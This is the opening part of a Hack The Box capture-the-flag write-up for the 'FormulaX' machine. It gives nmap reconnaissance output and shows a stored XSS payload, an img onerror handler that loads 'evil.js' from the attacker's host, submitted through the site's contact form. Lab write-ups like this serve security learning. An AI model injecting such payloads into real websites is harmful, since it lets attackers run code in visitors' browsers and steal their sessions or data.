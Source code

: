 # FormulaX Write-up

<img src="https://labs.hackthebox.com/storage/avatars/897faece9f60bf69d8e109833f63da48.png" width="200" height="200">

## Nmap

`nmap -sC -sV 10.10.11.6`

    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   256 5f:b2:cd:54:e4:47:d1:0e:9e:81:35:92:3c:d6:a3:cb (ECDSA)
    |_  256 b9:f0:0d:dc:05:7b:fa:fb:91:e6:d0:b4:59:e6:db:88 (ED25519)
    80/tcp open  http    nginx 1.18.0 (Ubuntu)
    |_http-server-header: nginx/1.18.0 (Ubuntu)
    |_http-cors: GET POST
    | http-title: Site doesn't have a title (text/html; charset=UTF-8).
    |_Requested resource was /static/index.html
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Main page 

![main page](https://github.com/zer00d4y/writeups/assets/128820441/3a3da767-6608-4a9c-adb9-1daa98b7adbd)

`Contact us` page 

![image](https://github.com/zer00d4y/writeups/assets/128820441/03f12159-e8aa-4ad2-be42-67d0b66cf0e3)

    <img SRC=p onerror="var script1 = document.createElement("script"); script1.src = 'http://10.10.14.91/evil.js'; document.head.appendChild(script1);" />

![image](https://github.com/zer00d4y/writeups/assets/128820441/dbb7cf44-9bf2-4cf7-b497-e22ad43b2c71)
